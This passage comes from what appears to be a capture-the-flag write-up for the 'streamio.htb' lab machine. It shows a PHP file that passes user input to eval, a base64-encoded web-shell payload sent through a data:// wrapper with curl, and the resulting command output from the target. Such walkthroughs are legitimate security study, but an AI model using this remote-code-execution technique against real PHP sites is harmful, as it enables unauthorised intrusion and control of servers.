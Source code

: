 Cool, we have a `master.php` file as well! Doing a bit of code analyses in this file we finally see the path to get a shell. 
The file `master.php` is using the function `eval` like this:
```php
...[SNIP]...

<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```

The code logic above simply says that if a user sends a POST request to `master.php` with data different than `index.php` in the parameter `include` it will pass to `eval`. It is a RCE vulnerability.

### RCE - Foothold
We can base64 encode our code to be passed to `eval` like this:
```bash
$ echo 'system($_REQUEST["cmd"]);' | base64
c3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOwo=
```
The above will include a new parameter that we can use to run system commands in the `master.php` file.

And then we can send system commands like this:
```bash
$ curl -s -k -X 'POST' -H 'Content-Type: application/x-www-form-urlencoded' -b 'PHPSESSID=luoqop4jub9vubjbl5ngnblrb1' --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOwo=" 'https://streamio.htb/admin/?debug=master.php&cmd=dir' | grep '<input name="include" hidden>' -A 9999 |grep '</div>' -B 9999 | tail -n +3 | head -n -1

Volume in drive C has no label.
 Volume Serial Number is A381-2B63

 Directory of C:\inetpub\streamio.htb\admin

02/22/2022  03:49 AM    <DIR>          .
02/22/2022  03:49 AM    <DIR>          ..
02/22/2022  03:49 AM    <DIR>          css
02/22/2022  03:49 AM    <DIR>          fonts
02/22/2022  03:49 AM    <DIR>          images
06/03/2022  01:51 AM             2,401 index.php
02/22/2022  04:19 AM    <DIR>          js
06/03/2022  01:53 AM             3,055 master.php
02/23/2022  03:16 AM               878 movie_inc.php
02/23/2022  03:16 AM               936 staff_inc.php
02/23/2022  03:16 AM               879 user_inc.php
               5 File(s)          8,149 bytes
               6 Dir(s)   5,373,267,968 bytes free
```
